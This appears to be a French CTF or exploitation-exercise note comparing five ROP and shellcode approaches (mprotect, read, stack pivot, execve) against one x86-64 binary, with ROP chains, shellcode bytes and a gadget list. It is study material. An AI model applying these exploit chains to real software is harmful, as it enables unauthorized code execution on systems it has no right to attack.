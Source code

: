 Méthode 1
=========

Injection d'un shellcode puis rop: mprotect + read + exec

```
hash =
0:	b2 07                	mov    dl,0x7
2:	5d                   	pop    rax
3:	c3                   	ret
```

```
ropchain =
(gadget mov eax, 10; syscall; ret);
(gadget pop rdi; ret); 0;
(gadget pop rsi; pop r15; ret); 0x601000; 0;
(gadget mov eax, 0; syscall; ret); 0x601000
```

step 3 = shellcode de 7 bytes

Conclusion: OK, nécessite 8 * 8 octets

Méthode 2
=========

Injection d'un shellcode puis rop: mprotect + read + exec

```
hash =
pop r15
pop rsi
pop rdx
ret
```

```
ropchain =
0x1000;
7;
(gadget mov eax, 10; syscall; ret);
(gadget pop rdi; ret); 0;
(gadget pop rsi, pop rdx, ret); 0x601000; 0xff;
(gadget mov eax, 0; syscall; ret); 0x601000
```

Conclusion: OK, nécessite 10 * 8 octets

Méthode 3
=========

Injection d'un shellcode puis rop: execve

```
hash =
0:	b0 3b                	mov    al,0x3b
2:	5a                   	pop    rdx
3:	c3                   	ret
```

```
ropchain =
(gadget pop rdi; ret) + (0)
...
```


Conclusion: NO, impossible de faire pointer rdi vers "/bin/bash"

Méthode 4
=========

Injection d'un shellcode puis rop: mprotect + stack pivoting

```
hash =
0:	b2 07                	mov    dl,0x7
2:	5d                   	pop    rax
3:	c3                   	ret
```

```
ropchain =
(gadget mov eax, 10; syscall; ret);
(gadget pop rsp; ret); 0x601900
0x400bf7 (relancement du main, avec la nouvelle stack)
```

Ensuite, on peut réinjecter une chaine. On prend un shellcode de façon a ce que le hash soit
un simple pop; ret
payload = 0x601900 ; shellcode

Conclusion: NO, après {pop rsp}, le {ret} échoue puisqu'il trouve 0 sur la pile

Méthode 5
=========

Injection d'un shellcode faisant mprotect + relance le main avec un grand `rdx`

```
hash =
58                   	pop    rax
5a                   	pop    rdx
c3                   	ret
```

```
ropchain =
7;
(gadget mov eax, 10; syscall; ret);
(gadget pop rdx, ret); 0xff
0x400bf7 (relancement du main)
```


Conclusion: OK, nécessite 5 * 8 octets

Gadgets
=======

```
0x0000000000400c8b: ret; mov eax, 1; syscall;
0x0000000000400c93: ret; mov eax, 0x3c; syscall;
0x0000000000400c9b: ret; mov eax, 0xa; syscall;
0x0000000000400ba3: hlt; pop rbx; pop rbp; pop r12; ret;
0x00000000004008b4: xor dword ptr [rcx + 1], eax; ret;
0x0000000000400ba7: pop rsp; ret;
0x00000000004008ea: pop rdi; ret;
0x00000000004008e8: pop rsi; pop r15; ret;
0x00000000004008e2: pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
0x0000000000400b9e: add dword ptr [rax + 0x39], ecx; ret;
```
